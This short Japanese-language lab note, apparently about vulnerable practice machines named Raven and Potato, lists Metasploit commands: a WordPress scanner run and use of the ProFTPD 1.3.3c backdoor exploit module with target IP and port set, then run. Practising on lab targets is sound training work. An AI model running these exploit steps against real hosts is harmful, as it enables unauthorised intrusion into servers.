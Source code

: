 ### Ravenを起動する
- `use auxiliary/scanner/http/wordpress_scanner`
- または左の数字でもいい
  - `use 40` 
- `show options`で開いてるとこを埋める
- setにrhosts,targeturiは埋める
  - targeturiはだいたい`/wordpress` 
- `run`

### Potatoを起動
- nmapでProfptdが起動しているのがわかる。このサービスにMetasploit攻撃をする 
```
msfconsole
search proftpd backdoor
use exploit/unix/ftp/proftpd_133c_backdoor
show options
set rhosts ターゲットのIP
set rport ターゲットのport
run
```

